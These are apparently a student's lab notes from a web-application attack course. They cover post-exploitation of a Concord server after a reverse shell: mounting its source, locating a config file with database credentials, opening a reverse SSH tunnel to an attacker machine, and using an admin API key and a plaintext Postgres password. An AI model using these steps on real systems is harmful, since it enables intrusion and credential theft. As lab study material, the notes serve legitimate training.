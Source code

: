 We can remote mount the concord directories with:
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.43.0 /home/vagrant/Desktop/awae/concord/part-1/1.43
```
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.83.0 /home/vagrant/Desktop/awae/concord/part-1/1.83
```
Part 1 ExtraMile:  
Our reverse shell lands us in a docker container.  

We should promote the shell to a fully interactive tty.  
Python2.7 is installed on the container.  
We can find the concord.conf file with: 
```bash
find / -type f -name *.conf 2>/dev/null
```
The concord.conf file contains credentials to a posgres db.
In order to access the postgres port with our java client from our kali box we can do a reverse tunnel (from within the reverseshell):
```bash
ssh -N -R 5432:172.18.0.4:5432 tunnelboy@192.168.119.130 -o "StrictHostKeyChecking=no"
```
We can build our jdbc client with compile.ps1  

Searching the codebase:
```powershell
gci -Recurse -Filter "*.java" |  sls -Pattern salt | select line,path
```
concord documentation: https://web.archive.org/web/20201123223951/https://concord.walmartlabs.com/docs/api/secret.html
Api Token creation at: https://github.com/walmartlabs/concord/blob/master/server/liquibase-ext/src/main/java/com/walmartlabs/concord/server/liquibase/ext/ApiTokenCreator.java
Specific Location is ApiKeyDao.java

Interacting with api with admin auth key
iwr -Uri 'http://concord:8001/api/v1/apikey' -Headers @{ Authorization = "basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA"));ContentType= "application/json"}
curl -H "Authorization: basic KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA" -H "Content-Type: application/json"  http://concord:8001/api/v1/apikey

As a side note we can also enter the docker container manually with:
``` bash
sudo docker exec -it concord1430_concord-server_1 /bin/bash
```

I'm not sure why I didn't realize this but we can check out the database with psql,
```bash
psql 'postgresql://postgres:quake1quake2quake3arena@localhost:5432/postgres'
```